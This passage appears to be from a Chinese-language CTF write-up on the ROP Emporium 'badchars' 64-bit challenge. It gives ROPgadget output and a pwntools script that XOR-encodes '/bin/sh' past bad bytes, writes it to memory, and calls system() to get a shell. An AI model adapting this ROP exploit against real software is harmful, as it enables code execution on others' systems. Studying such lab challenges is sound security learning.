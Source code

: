 #### badchars
64 位程序也是一样的，注意参数传递就好了。
```
$ ropgadget --binary badchars --only "mov|pop|ret|xor"
...
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b39 : pop rdi ; ret
```
```python
from pwn import *

pop_r12_r13  = 0x0000000000400b3b
mov_r13_r12  = 0x0000000000400b34
pop_r14_r15  = 0x0000000000400b40
xor_r15_r14b = 0x0000000000400b30
pop_rdi      = 0x0000000000400b39

system_plt = 0x00000000004006f0
data_addr  = 0x0000000000601000

badchars = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xor_byte = 0x1
while(1):
    binsh = ""
    for i in "/bin/sh\x00":
        c = ord(i) ^ xor_byte
        if c in badchars:
            xor_byte += 1
            break
        else:
            binsh += chr(c)
    if len(binsh) == 8:
        break

payload  = "A"*40
payload += p64(pop_r12_r13)
payload += binsh
payload += p64(data_addr)
payload += p64(mov_r13_r12)

for i in range(len(binsh)):
    payload += p64(pop_r14_r15)
    payload += p64(xor_byte)
    payload += p64(data_addr + i)
    payload += p64(xor_r15_r14b)

payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(system_plt)

io = process('./badchars')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```
